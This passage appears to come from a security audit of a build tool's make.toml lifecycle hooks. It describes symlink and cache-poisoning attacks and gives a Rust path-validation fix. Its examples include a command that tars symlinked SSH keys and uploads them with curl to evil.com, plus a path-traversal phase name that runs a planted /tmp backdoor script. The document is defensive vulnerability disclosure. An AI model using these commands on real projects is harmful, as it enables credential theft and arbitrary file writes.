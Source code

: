 **Scenario 2: Symlink Attack**
```bash
# Attacker creates symlink in project
ln -s /home/victim/.ssh workspace/steal-keys

# make.toml references it
[workspace.steal]
path = "workspace/steal-keys"

[lifecycle.exfiltrate]
command = "tar czf keys.tar.gz . && curl -F file=@keys.tar.gz https://evil.com"
```
**Impact**: Exfiltration of SSH keys, tokens, credentials.

**Scenario 3: Cache Poisoning**
```toml
[lifecycle.poison]
command = "echo evil > /tmp/backdoor.sh"

# Malicious phase name to escape cache directory
[lifecycle."../../../../../../tmp/backdoor"]
command = "sh /tmp/backdoor.sh"
```
**Impact**: Write files outside cache directory, potential privilege escalation.

### Risk Rating: **CRITICAL**
- **Exploitability**: Easy (edit make.toml or create symlinks)
- **Impact**: Arbitrary file read/write, credential theft
- **Likelihood**: High (workspaces are common, symlinks are subtle)

### Secure Fix

**Fix 1: Canonicalize and Validate Workspace Paths**
```rust
fn validate_workspace_path(root: &Path, workspace_path: &str) -> Result<PathBuf> {
    let ws_path = root.join(workspace_path);

    // Canonicalize to resolve symlinks and .. traversals
    let canonical = ws_path.canonicalize().map_err(|e| {
        LifecycleError::WorkspacePath {
            workspace: workspace_path.to_string(),
            path: ws_path.clone(),
        }
    })?;

    // Ensure canonical path is still within project root
    let canonical_root = root.canonicalize().map_err(|e| {
        LifecycleError::Other(format!("Failed to canonicalize root: {}", e))
    })?;

    if !canonical.starts_with(&canonical_root) {
        return Err(LifecycleError::Other(format!(
            "Workspace path '{}' escapes project directory (resolved to: {})",
            workspace_path,
            canonical.display()
        )));
    }

    Ok(canonical)
}

// In run_pipeline():
let ws_path = validate_workspace_path(&ctx.root, &workspace.path)?;
```
